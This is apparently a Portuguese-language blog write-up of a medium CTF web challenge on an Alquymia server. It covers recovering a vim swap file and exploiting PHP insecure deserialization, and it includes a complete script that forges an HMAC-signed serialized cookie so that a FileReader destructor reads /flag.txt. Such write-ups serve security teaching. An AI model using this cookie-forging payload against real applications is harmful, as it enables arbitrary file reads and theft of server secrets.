 ```yaml
---
layout: post
title: "Vazamento de Segurança"
date: 2024-10-20
categories: [Alquymia, CTF, deserialization]
tags: [Alquymia, CTF, deserialization, deserialization insecure, PHP]
---
```


**Dificuldade:** Médio

**Pontos:** 10

## Descrição do Desafio

Você foi chamado para investigar um possível incidente de segurança em um sistema web. Durante a análise, foi identificado que um arquivo confidencial no servidor pode ter sido acessado indevidamente.

## Reconhecimento

A investigação foi iniciada utilizando o **dirsearch** para explorar a estrutura de diretórios do servidor e identificar arquivos sensíveis.

```bash
dirsearch -u http://ctf-web02.alquymia.com.br/
```

Após alguns segundos, consegui localizar o arquivo **.index.php.swp**, que é um arquivo temporário que pode conter dados sensíveis.

## Recuperação do Arquivo

O arquivo **.index.php.swp** pode ser recuperado com a seguintes comandos

```bash
wget http://ctf-web02.alquymia.com.br/.index.php.swp
vim -r index.php
[Enter]
```

## Exploração da Vulnerabilidade

Após recuperar o arquivo **.index.php.swp**, identifiquei um código vulnerável à deserialização insegura. A classe **FileReader** é responsável por ler o conteúdo de um arquivo, e o seu destrutor (`__destruct`) é chamado quando a instância da classe é destruída, revelando o conteúdo do arquivo especificado na propriedade **$filename**.

Aqui está o trecho relevante do código:

```php
class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

```

A vulnerabilidade permite que um atacante manipule a propriedade **$filename** ao forjar um token. Para explorar isso, criei um token com um payload que define a propriedade **$filename** para **/flag.txt**

### Criação do Token

Utilizando as funções de criação e decodificação do cookie, podemos forjar um token válido. O código PHP a seguir cria o payload necessário para acessar a **flag.tx**t:

```php
<?php

class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

$key = 'my_secret_key_1234'; 

function createSecureCookie($data, $key) {
    $serialized_data = serialize($data); 
    $encoded_data = base64_encode($serialized_data); 
    $hmac = hash_hmac('sha256', $encoded_data, $key);
    return base64_encode($encoded_data . '::' . $hmac); 
}

// Criar o payload
$data = new FileReader();
$data->filename = '/flag.txt';
$token = createSecureCookie($data, $key);

// Encodar o token em URL
$encoded_token = urlencode($token);

// Exibir o token encodado
echo $encoded_token."\n\n";
?>
```

### Executando o Script

1. O código acima deve ser salvo em um arquivo chamado `create_token.php`.
2. O script pode ser executado no terminal utilizando o PHP:
    
    ```bash
    php create_token.php
    ```
    
3. O script exibirá um token

![image.png](../assets/images/2024-10-20-alquymia-0/image1.png)

### Usando o Token

O token deve ser definido como um cookie **user_data** e acessado na página que processa esse cookie. O destrutor da classe **FileReader** será invocado, permitindo que o conteúdo de **/flag.txt** seja exibido.

Para definir o cookie no navegador, deve-se acessar o console de desenvolvimento e navegar até a aba "Application". 
A seguir, o token pode ser adicionado na seção de cookies.

![image.png](../assets/images/2024-10-20-alquymia-0/image2.png)

Após definir o cookie, ao acessar a página correspondente, o conteúdo da **/flag.txt** aparecerá no final da fonte da página.

![image.png](../assets/images/2024-10-20-alquymia-0/image3.png)
